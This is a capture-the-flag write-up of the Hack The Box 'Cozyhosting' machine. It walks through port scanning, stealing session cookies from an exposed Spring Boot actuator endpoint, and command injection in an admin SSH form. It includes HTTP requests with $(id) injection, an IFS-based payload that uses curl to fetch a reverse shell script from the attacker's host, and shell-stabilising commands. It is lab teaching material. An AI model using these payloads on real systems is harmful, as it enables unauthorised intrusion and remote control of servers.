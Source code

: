 ```yaml
---
title: HTB Cozyhosting Writeup
date: 2023-10-13 09:20:16 +0600
categories: [Linux, Easy]
tags: [htb]     
---
```


![Cozyhosting Pwned](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/cozyhosting-htb/cozyhosting_pwned.PNG "Pwned haha!!")

# Introduction
Hi, Hackers!!. Today we will solve the HTB machine Cozyhosting. It is a fun linux machine. And also tagged as Easy. Let's dive into the fun stuff
without wasting any time.

# Enumeration
Just like as usual, when you approach a machine or box, first thing to do is to scan for open ports. For scanning ports, you can use the traditional tool `Nmap`. But `Nmap` is kinda slow. As an alternative, we can use `Rustscan` or `threader3000`. I used `Rustscan` for scanning. Found the ports 22 and 80 open.

![Cozyhosting Rustscan](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/cozyhosting-htb/cozyhosting_rustscan.png)

And also found what services are running in those open ports.

![Cozyhosting Services](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/cozyhosting-htb/cozyhosting_nmap_service.png)

If you search with the given IP in your browser, you will be redirected to `http://cozyhosting.htb`. So we need to add the IP and hostname in the hosts file. For linux, it's `/etc/hosts` and for windows, it's `c:\Windows\System32\Drivers\etc\hosts`.

Then we get,

![Home Page](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/cozyhosting-htb/cozyhosting_port80.png)

And We found a login page too.

![Login Page](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/cozyhosting-htb/cozyhosting_login.png)

But we still don't know what could be under there. So I searched for `robots.txt`. And I found this.

![Error Page](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/cozyhosting-htb/cozyhosting_error.png)

I googled it and found that it's a `Spring Boot` framework. Next, let's search for more directories. As it is a spring boot framework, you can use `seclists` spring boot wordlist. I used dirsearch.

![Found More](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/cozyhosting-htb/cozyhosting_dirsearch.png)

We found a couple of `actuator` directories and found `admin` page which is giving unauthorized(401). Let's visit this `actuator` dir...

![Actuator Dir](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/cozyhosting-htb/cozyhosting_actuator.png)

The important one could be `sessions`. Let's see....

![Sessions Dir](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/cozyhosting-htb/cozyhosting_sessions.png)

These are session cookies that we found. This could be useful for session hijacking through `/admin` page. Using one of the session cookies,
send the request to `/admin` page.

![Session Req](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/cozyhosting-htb/cozyhosting_req.PNG)

Now we are in the admin page.

![Admin Dashboard](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/cozyhosting-htb/cozyhosting_admin_dashboard.png)

And a form for ssh connections, I suppose.

![SSH Form](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/cozyhosting-htb/cozyhosting_admin_form.png)

# Foothold

As the form is running ssh, we should find out if we can find command injection. Let's analyze a normal behavior first.

```Request

POST /executessh HTTP/1.1
Host: cozyhosting.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 23
Origin: http://cozyhosting.htb
Connection: close
Referer: http://cozyhosting.htb/admin
Upgrade-Insecure-Requests: 1

host=test&username=test

```

```Response

HTTP/1.1 302 
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 14 Oct 2023 13:15:03 GMT
Content-Length: 0
Location: http://cozyhosting.htb/admin?error=ssh: Could not resolve hostname test: Temporary failure in name resolution
Connection: close
X-Content-Type-Options: nosniff
X-XSS-Protection: 0
Cache-Control: no-cache, no-store, max-age=0, must-revalidate
Pragma: no-cache
Expires: 0
X-Frame-Options: DENY

```

Let's examine the host parameter. we can use ``id`` or `$(id)`

```Request

POST /executessh HTTP/1.1
Host: cozyhosting.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Origin: http://cozyhosting.htb
Connection: close
Referer: http://cozyhosting.htb/admin
Upgrade-Insecure-Requests: 1

host=$(id)&username=test

```

```Response

HTTP/1.1 302 
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 14 Oct 2023 13:26:39 GMT
Content-Length: 0
Location: http://cozyhosting.htb/admin?error=Invalid hostname!
Connection: close
X-Content-Type-Options: nosniff
X-XSS-Protection: 0
Cache-Control: no-cache, no-store, max-age=0, must-revalidate
Pragma: no-cache
Expires: 0
X-Frame-Options: DENY

```
Gave invalid. Let's try the username parameter now.

```Request

POST /executessh HTTP/1.1
Host: cozyhosting.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Origin: http://cozyhosting.htb
Connection: close
Referer: http://cozyhosting.htb/admin
Upgrade-Insecure-Requests: 1

host=test&username=$(id)

```

```Response

HTTP/1.1 302 
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 14 Oct 2023 13:32:03 GMT
Content-Length: 0
Location: http://cozyhosting.htb/admin?error=ssh: Could not resolve hostname `uid=1001(app)`: Name or service not known
Connection: close
X-Content-Type-Options: nosniff
X-XSS-Protection: 0
Cache-Control: no-cache, no-store, max-age=0, must-revalidate
Pragma: no-cache
Expires: 0
X-Frame-Options: DENY

```

Now we get a response. It's responding with uid result. We have a command injection vulnerability. Let's try to get a reverse shell. As it doesn't take whitespace, we have to replace all whitespaces. We can use `$IFS` for it. The command that should help us: `$(IFS=_;Com=id;$Com)`

To store a reverse shell in the server, we can use the `curl` command as `wget` doesn't work here. Open a server with python: `python3 -m http.server 4444`. Then we can download the reverse shell with `curl`. So the payload would be: `$(IFS=_;Com=curl_http://10.10.10.10/shell.sh_-w_/tmp/shell.sh;$Com)`

Then after giving the execute permission, if we run the shell We will get a reverse shell.

# Lateral Movement

We got the shell, but not a stable one. Let's stable it first. Python3 is available in the server as it happens.

```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
ctrl+z(bg)
$ stty raw -echo;fg
$ export TERM = xterm
```


